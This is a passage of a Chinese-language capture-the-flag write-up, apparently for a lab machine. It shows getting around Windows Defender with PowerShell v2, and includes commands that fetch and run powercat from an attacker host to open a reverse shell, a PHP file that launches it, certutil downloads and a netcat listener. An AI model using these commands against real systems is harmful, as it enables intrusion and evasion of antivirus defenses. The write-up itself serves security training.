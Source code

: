 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)没过一会 nc.exe 也被杀掉了，还是使用最初的 powershell v2 来绕过 Windows Defender

### Windows Defender绕过

创建 cmd.bat 文件用于设置反弹shell

```
powershell.exe -version 2 IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.17/powercat.ps1');powercat -c 10.10.14.17 -p 2345 -e cmd;  

```

创建 cmd.php 文件用于执行bat文件

```
<?php echo exec("C:\wamp64\www\cmd.bat");?>  

```

使用 certutil 上传 cmd.bat、cmd.php

```
certutil -urlcache -split -f http://10.10.14.17/cmd.php c:\wamp64\www\cmd.php  
certutil -urlcache -split -f http://10.10.14.17/cmd.bat c:\wamp64\www\cmd.bat  

```

在本地监听2345端口

```
nc -nvlp 2345  

```

访问 cmd.php 成功获得目标shell

```
curl http://10.10.10.71:8080/cmd.php  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)在管理员桌面上寻找第二个flag

```
dir c:\Users\Administrator\Desktop  
type c:\Users\Administrator\Desktop\root.txt  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)成功获取第二个flag